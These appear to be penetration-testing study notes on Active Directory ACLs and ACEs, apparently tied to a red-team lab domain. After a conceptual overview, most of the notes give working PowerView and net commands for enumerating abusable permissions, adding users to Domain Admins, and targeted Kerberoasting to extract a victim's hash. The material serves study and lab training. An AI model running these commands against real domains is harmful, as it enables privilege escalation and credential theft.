 ## Summary

### Access Control List (ACL)

Enables control on the ability of a process to access objects and other resources in active directory based on:
– Access Tokens (security context of a process - identity and privs of user)
– Security Descriptors (SID of the owner, Discretionary ACL (DACL) and System ACL (SACL))

### Access Control Entries (ACE) 
It is a list of Access Control Entries (ACE) - ACE corresponds to individual permission or audits access. Who has permission and what can be done on an object?
• Two types:
– DACL - Defines the permissions trustees (a user or group) have on an object.
– SACL - Logs success and failure audit messages when an object is accessed

An Access Control Entry (ACE) is an individual rule within an ACL that defines specific permissions granted or denied to a user or group.

* Each ACE includes:
- The Security Principal (user, group, or computer to which permissions apply).
- The Access Mask (specific permissions such as read, write, delete, etc.).
- The Access Type (Allow or Deny).

Example: Understanding ACEs
An ACE might specify that:
- User Alice has Full Control over an Organizational Unit (OU).
- Group HelpDesk has Read and Write permissions to modify certain user attributes.
- User Bob is explicitly denied the ability to delete an object.

### Managing ACLs and ACEs in Active Directory
Administrators can modify ACLs and ACEs using graphical tools like Active Directory Users and Computers (ADUC) or command-line tools like PowerShell.

Modifying ACLs Using PowerShell
To add an ACE granting a user full control over an object:
```
$acl = Get-Acl "AD:CN=JohnDoe,OU=Users,DC=example,DC=com"
$identity = New-Object System.Security.Principal.NTAccount("example.com\Alice")
$permission = [System.DirectoryServices.ActiveDirectoryRights]::GenericAll
$accessRule = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($identity, $permission, "Allow")
$acl.AddAccessRule($accessRule)
Set-Acl -Path "AD:CN=JohnDoe,OU=Users,DC=example,DC=com" -AclObject $acl
```
This script grants Alice full control over the user JohnDoe.

### Commands 

Get the ACLs associated with the specified object
* Get-DomainObjectAcl -SamAccountName student1 -ResolveGUIDs

Get the ACLs associated with the specified prefix to be used for search
* Get-DomainObjectAcl -SearchBase "LDAP://CN=DomainAdmins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local" -ResolveGUIDs -Verbose

Get the ACLs associated for Domain Admins
* Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs -Verbose

Analyze Trust Relationships (Displays trust relationships between domains)
* Get-NetDomainTrust

Check ACLs on AD Objects  (Shows ACLs for a specific user account, resolving GUIDs to human-readable names)
* Get-ObjectAcl -SamAccountName "Administrator" -ResolveGUIDs

Search for interesting ACEs
* Find-InterestingDomainAcl -ResolveGUIDs

Get ACLs where studentx has interesting permissions
* Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "student867"}

Get the ACLs associated with the specified path
* Get-PathAcl -Path "\\dcorp-dc.dollarcorp.moneycorp.local\sysvol"

### DACL abuse

DACLs (Active Directory Discretionary Access Control Lists) are lists made of ACEs (Access Control Entries) that identify the users and groups that are allowed or denied access on an object. 

SACLs (Systems Access Control Lists) define the audit and monitoring rules over a securable object.

When misconfigured, ACEs can be abused to operate lateral movement or privilege escalation within an AD domain.

### Permisssions index

1. WriteDacl: Edit the object's DACL (i.e. "inbound" permissions).
2. GenericAll: Combination of almost all other rights.
3. GenericWrite: Combination of write permissions (Self, WriteProperty) among other things.
4. WriteProperty: Edit one of the object's attributes. The attribute is referenced by an "ObjectType GUID".
5. WriteOwner: Assume the ownership of the object (i.e. new owner of the victim = attacker, cannot be set to another user).With the "SeRestorePrivilege" right it is possible to specify an arbitrary owner.
6. Self: Perform "Validated writes" (i.e. edit an attribute's value and have that value verified and validate by AD). The "Validated writes" is referenced by an "ObjectType GUID".
7. AllExtendedRights: Peform "Extended rights". "AllExtendedRights" refers to that permission being unrestricted. This right can be restricted by specifying the extended right in the "ObjectType GUID".
8. User-Force-Change-Password: Change the password of the object without having to know the previous one.
9. DS-Replication-Get-Changes: One of the two extended rights needed to operate a DCSync.
10. DS-Replication-Get-Changes-All: One of the two extended rights needed to operate a DCSync.
11. Self-Membership: Edit the "member" attribute of the object.
12. Validated-SPN: Edit the "servicePrincipalName" attribute of the object.


### AddMember
This abuse can be carried out when controlling an object that has a GenericAll, GenericWrite, Self, AllExtendedRights or Self-Membership, over the target group.
The attacker can add a user/group/computer to a group.

**Windows**
* net group 'Domain Admins' 'user' /add /domain

Powershell: Active Directory module
* Add-ADGroupMember -Identity 'Domain Admins' -Members 'user'

Powershell: PowerSploit module
* Add-DomainGroupMember -Identity 'Domain Admins' -Members 'user'


**Linux**

With net and cleartext credentials (will be prompted)
* net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER" -S "$DC_HOST"

With net and cleartext credentials
* net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"$PASSWORD" -S "$DC_HOST"

### ForceChangePassword
This abuse can be carried out when controlling an object that has a GenericAll, AllExtendedRights or User-Force-Change-Password over the target user.

### Targeted Kerberoasting
This abuse can be carried out when controlling an object that has a GenericAll, GenericWrite, WriteProperty or Validated-SPN over the target. A member of the Account Operator group usually has those permissions.

The attacker can add an SPN (ServicePrincipalName) to that account. Once the account has an SPN, it becomes vulnerable to Kerberoasting. This technique is called Targeted Kerberoasting.

**Windows**
1. Make sur that the target account has no SPN
- Get-DomainUser 'victimuser' | Select serviceprincipalname

2. Set the SPN
- Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}

3. Obtain a kerberoast hash
- $User = Get-DomainUser 'victimuser'
- $User | Get-DomainSPNTicket | fl

4. Clear the SPNs of the target account
- $User | Select serviceprincipalname
- Set-DomainObject -Identity victimuser -Clear serviceprincipalname
